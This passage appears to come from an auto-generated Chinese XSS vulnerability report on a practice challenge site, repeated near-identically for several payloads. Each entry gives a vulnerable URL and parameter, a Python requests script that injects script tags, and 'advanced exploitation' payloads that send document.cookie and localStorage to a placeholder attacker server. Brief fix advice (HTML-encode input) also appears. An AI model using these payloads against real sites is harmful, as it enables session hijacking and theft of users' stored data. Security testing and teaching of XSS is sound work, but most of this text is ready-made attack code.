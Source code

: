 3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 严重程度: medium
- 验证载荷: <script>alert(1)</script>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?writing=wait'
   params = {'keyword': '<script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
- 参数: keyword
- 严重程度: medium
- 验证载荷: <img src=x onerror=alert(1)>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?writing=wait
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <img src=x onerror=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?writing=wait'
   params = {'keyword': '<img src=x onerror=alert(1)>'}
   response = requests.get(url, params=params)
   ```
